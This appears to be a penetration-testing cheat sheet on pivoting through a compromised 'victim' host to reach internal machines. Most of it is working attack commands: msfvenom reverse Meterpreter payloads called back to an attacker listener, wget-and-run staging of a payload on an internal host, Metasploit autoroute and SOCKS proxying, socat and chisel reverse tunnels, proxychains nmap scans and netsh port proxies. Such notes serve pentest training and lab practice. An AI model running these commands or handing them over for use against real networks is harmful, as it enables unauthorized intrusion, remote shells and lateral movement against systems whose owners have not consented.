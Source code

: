 # Pivoting

## SSH

### Port forwarding

```bash
kali@attacker$ ssh root@victim -L 127.0.0.1:4444:other_host:5432 -N
kali@attacker$ ssh root@victim -R victim:4444:attacker:5555 -N
root@victim$ ssh kali@attacker -R 127.0.0.1:4444:other_host:5432 -N
```

### Proxy SOCKS

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Proxy SOCKS with MSF

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

### Pivoting from Victim

#### Scanning network 

 * From bash: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
 * From MSF: `msf6 exploit(multi/handler) >  run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24`
 * From Windows:

```
curl -o Get-PingSweep.ps1https://gist.githubusercontent.com/joegasper/93ff8ae44fa8712747d85aa92c2b4c78/raw/ba84c297a051833e0b48b3cb31bfbaa8d7fec35f/Get-PingSweep.ps1
Import-Module .\Get-PingSweep.ps1
Get-PingSweep -SubNet '172.16.6'
```

#### Nmap scan:

##### Open SOCKS Proxy

From MSF (outside session)
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```

##### Routing to our VM

To tell our socks_proxy module to route all the traffic via our Meterpreter session, we can use the post/multi/manage/autoroute module.
Then, we route all traffic through proxychains.

Before autoroute on **Victim**:

```bash
$ route -n

```

From MSF (outside meterpreter session)
```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> use post/multi/manage/autoroute
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SUBNET 172.16.5.0
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> run
```

After autoroute on **Victim**:
```bash
$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    0      0        0 ens192
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
172.16.4.0      0.0.0.0         255.255.254.0   U     0      0        0 ens224
```

##### Nmap scan with proxychains

```bash
$ tail /etc/proxychains4.conf 
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Ports forwarding

##### Local => Victim => Other Host

Useful to interact with a local post and use local tools.

 * Listen to the port 3300 on **Attacker**
 * Forward all packets to **victim:8080**

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -l 3300 -p 8080 -r victim
```

Interact with service
```bash
$ curl http://localhost:8080/
```

##### Other Host => Victim => Local

Useful to get reverse shell to connect to local meterpreter

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -R -l 8081 -p 1234 -L Attacker
```

A server is started on **victim**:
```
$ netstat -antop | grep 1234
tcp6       0      0 :::1234                 :::*                    LISTEN      1784/backupjob       off (0.00/0/0)
```

On **Attacker**, craft reverse meterpreter which connect to **victim**, upload and execute it onn **other_host**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=victim -f exe -o backupscript.exe LPORT=1234
````

On **Attacker** :
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8081
msf6 exploit(multi/handler) > run
```

## Port forwarding with SOCAT

### Local => Victim => Other Host

On **victim**:
```bash
$ socat TCP4-LISTEN:8080,fork TCP4:other_host:8443
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

###  Other Host => Victim => Local

Reverse tunneling from other_host to attacker through victim

On **victim**:
```bash
$ socat TCP4-LISTEN:1234,fork TCP4:attacker:8081
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

## Other tools

 - plink : `plink -ssh -D 9050 ubuntu@10.129.15.50`
 - sshuttle: `sudo sshuttle -r root@victim "subnet other host"/23 -v`
 - rpivot
 - DNS Tunneling: dnscat2
 - ICMP Tunneling: ptunnel-ng

### chisel

On **attacker**
```
$ chisel server -v --socks5 --reverse --port 5036
$ tail /etc/proxychains4.conf                        
[ProxyList]
socks5  127.0.0.1 5136
```

On **Victim**:
```bash
$ chisel client 172.22.0.36:5036 R:5136:socks
```

After connection from chisel **Victim**, on **attacker**:
```bash
$ sudo netstat -antop | grep chisel
tcp        0      0 127.0.0.1:5136          0.0.0.0:*               LISTEN      1449854/./chisel_1.  off (0.00/0/0)
```

**Port forwarding avec Chisel**:

On **attacker**: `$ chisel server -v --reverse --port 5036`
 
 - Local => Victim => Other Host : `./chisel client attacker:5036 :8003:Other_Host:8004`, server run on 8004 on **other host**, `curl victim:8003` on attacker
 - Local <= Victim => Other Host (defeat firewall) :  `./chisel client attacker:5036 R:8003:victim:8004`, other host connect on 8004, `curl 127.0.0.1:8003`on attacker
 - Other Host => Victim => Local : `./chisel client attacker:5036 :8003:victim:8004`, other host connect on 8004, `nc -lvnp 8003`on attacker

### netsh

On Windows **Victim**:
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

